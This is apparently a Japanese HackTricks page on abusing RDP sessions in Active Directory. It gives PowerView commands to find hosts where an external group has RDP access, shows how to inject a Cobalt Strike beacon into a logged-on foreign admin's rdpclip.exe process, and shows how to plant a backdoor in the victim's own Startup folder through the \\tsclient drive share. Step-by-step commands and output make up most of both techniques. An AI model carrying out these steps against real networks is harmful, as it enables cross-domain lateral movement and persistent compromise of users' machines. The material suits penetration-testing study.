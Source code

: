 # RDPセッションの悪用

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## RDPプロセスインジェクション

**外部グループ**が現在のドメイン内の任意の**コンピュータ**に**RDPアクセス**を持っている場合、**攻撃者**はその**コンピュータを侵害し、彼を待つ**ことができます。

そのユーザーがRDP経由でアクセスすると、**攻撃者はそのユーザーのセッションにピボットし、外部ドメインでの権限を悪用する**ことができます。
```powershell
# Supposing the group "External Users" has RDP access in the current domain
## lets find where they could access
## The easiest way would be with bloodhound, but you could also run:
Get-DomainGPOUserLocalGroupMapping -Identity "External Users" -LocalGroup "Remote Desktop Users" | select -expand ComputerName
#or
Find-DomainLocalGroupMember -GroupName "Remote Desktop Users" | select -expand ComputerName

# Then, compromise the listed machines, and wait til someone from the external domain logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
...
4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local
## From that beacon you can just run powerview modules interacting with the external domain as that user
```
Check **他のツールを使ってセッションを盗む方法** [**このページで。**](../../network-services-pentesting/pentesting-rdp.md#session-stealing)

## RDPInception

ユーザーが**RDPを介してマシンにアクセス**し、**攻撃者**が**待機**している場合、攻撃者は**ユーザーのRDPセッションにビーコンを注入**することができ、**被害者がRDP経由でドライブをマウント**した場合、**攻撃者はそれにアクセスできる**。

この場合、**被害者の** **元のコンピュータ**を**バックドア**を**スタートアップフォルダ**に書き込むことで**妥協**することができます。
```powershell
# Wait til someone logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
...
4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local

# There's a UNC path called tsclient which has a mount point for every drive that is being shared over RDP.
## \\tsclient\c is the C: drive on the origin machine of the RDP session
beacon> ls \\tsclient\c

Size     Type    Last Modified         Name
----     ----    -------------         ----
dir     02/10/2021 04:11:30   $Recycle.Bin
dir     02/10/2021 03:23:44   Boot
dir     02/20/2021 10:15:23   Config.Msi
dir     10/18/2016 01:59:39   Documents and Settings
[...]

# Upload backdoor to startup folder
beacon> cd \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\pivot.exe
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
